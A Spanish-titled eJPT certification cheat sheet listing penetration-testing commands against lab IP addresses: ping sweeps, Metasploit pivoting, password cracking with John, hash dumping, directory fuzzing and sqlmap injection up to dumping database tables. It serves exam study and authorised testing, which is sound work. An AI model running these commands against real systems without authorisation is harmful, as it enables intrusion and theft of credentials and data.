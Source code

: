 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
nmap -sn 10.10.10.0/24
## fping
fping -a -g 10.10.10.0/24 2>/dev/null
# Pivoting
## Ip Route
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
## Metasploit
run autoroute -s 10.10.16.0/24
# Password cracking
## John
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
unshadow passwd shadow > unshadowed.txt
# Fuzzing
## Nmap
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
## wfuzz
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ

wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
## dirb
dirb http://10.10.15.12
## gobuster
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
# SQLMap
```bash
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
